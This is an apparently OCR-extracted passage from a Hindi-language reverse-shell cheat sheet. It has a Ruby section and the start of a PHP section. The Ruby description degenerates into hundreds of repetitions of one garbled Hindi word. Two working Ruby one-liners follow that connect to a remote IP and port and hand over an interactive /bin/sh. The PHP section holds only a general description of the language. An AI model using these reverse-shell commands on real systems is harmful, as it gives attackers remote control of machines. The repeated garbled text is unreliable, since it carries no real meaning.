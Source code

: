 Ruby एक उच्च स्तरीय, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-संग्रहीत, विषय-सं
```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
## PHP

PHP (Hypertext Preprocessor) एक वेब डेवलपमेंट स्क्रिप्टिंग भाषा है जिसका उपयोग वेब ऐप्लिकेशन और वेबसाइट्स बनाने के लिए किया जाता है। PHP एक open source भाषा है और यह सर्वर साइड पर प्रोसेस होती है, यानी कि यह सर्वर पर चलने वाले स्क्रिप्ट को प्रोसेस करती है। PHP को HTML में एम्बेड किया जा सकता है और यह डाटाबेस कनेक्शन, फ़ाइल प्रोसेसिंग, फ़ॉर्म प्रोसेसिंग और अन्य वेब डेवलपमेंट कार्यों के लिए उपयोगी होता है।
